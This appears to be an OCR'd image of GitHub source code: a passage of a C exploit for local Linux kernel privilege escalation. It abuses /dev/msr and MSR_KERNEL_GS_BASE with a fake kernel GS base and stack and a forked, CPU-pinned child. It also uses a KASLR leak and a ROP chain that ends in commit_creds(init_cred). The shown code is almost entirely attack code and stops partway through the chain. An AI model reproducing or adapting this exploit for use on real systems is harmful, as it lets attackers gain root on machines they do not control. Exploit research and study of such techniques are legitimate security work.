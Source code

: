 ```c
  
int  main(){
	pin_cpu(0);
	
	int fd =  open("/dev/msr", O_RDONLY);
	char* kgsbase;
	char* fake_stack;
	ul* kbase;
	int parent_child =  getpid();
	
	ul rsp;
	__asm__  volatile ("mov %%rsp, %0" : "=r"(rsp));
	
	stop("set eflags mask");
	ioctl(fd, MSR_SYSCALL_MASK, EFLAGS_MASK); 
	
	stop("set fake kernel gs base");
	fake_stack = (char*) mmap(NULL, 0x2000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_SHARED | MAP_ANONYMOUS | MAP_POPULATE, -1, 0);
	kgsbase = (char*) mmap((void* ) KERNEL_GS, GS_SIZE, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS | MAP_POPULATE, -1, 0);
	kbase = (ul*) mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS | MAP_POPULATE, -1, 0);
	
	int pid =  fork();
	if (!pid){
		pin_cpu(1);
		memset(fake_stack, 0, 0x2000);
		memset(kbase, 0, 0x1000);
		memset(kgsbase, 0, GS_SIZE);
		
		*(ul*) &kgsbase[0x2be40] = (ul) kgsbase;
		*(ul*) &kgsbase[0x6004] = (ul) fake_stack +  0x1000;
		*(ul*) &kgsbase[0x2be58] = (ul) fake_stack +  0x1000;
		char* chain = fake_stack+0x1000;
		
		*&kbase[1] =  1;
		while (!*kbase){} // wait for parent to overwrite MSR_KERNEL_GS_BASE and leak kaslr
		
		// set correct gs
		*(ul*) &fake_stack[0x1000] = POP_RDI +  *kbase;
		*(ul*) &fake_stack[0x1008] = (ul) &fake_stack[0x1068];
		*(ul*) &fake_stack[0x1010] = POP_RSI +  *kbase;
		*(ul*) &fake_stack[0x1018] = PAGE_OFFSET_BASE +  *kbase;
		*(ul*) &fake_stack[0x1020] = POP_RCX +  *kbase;
		*(ul*) &fake_stack[0x1028] =  8;
		*(ul*) &fake_stack[0x1030] = REP_MOVS_ALTERNATIVE +  *kbase;
		*(ul*) &fake_stack[0x1038] = POP_RSI +  *kbase;
		*(ul*) &fake_stack[0x1040] = PHYS_GS;
		*(ul*) &fake_stack[0x1048] = POP_RDX +  *kbase;
		*(ul*) &fake_stack[0x1050] = (ul) &fake_stack[0x1068] - PHYS_GS -  1;
		*(ul*) &fake_stack[0x1058] = ADD_DWORD_RSIRDX1_ESI +  *kbase;
		*(ul*) &fake_stack[0x1060] = POP_RDX +  *kbase;
		*(ul*) &fake_stack[0x1068] =  0x6969696969696969;
		*(ul*) &fake_stack[0x1070] = POP_RCX +  *kbase;
		*(ul*) &fake_stack[0x1078] = MSR_KERNEL_GS_BASE;
		*(ul*) &fake_stack[0x1080] = WRMSR +  *kbase;
		  
		// commit_creds(init_cred)
		*(ul*) &fake_stack[0x1088] = POP_RDI +  *kbase;
		*(ul*) &fake_stack[0x1090] = INIT_CRED +  *kbase;
		*(ul*) &fake_stack[0x1098] = COMMIT_CREDS +  *kbase;

```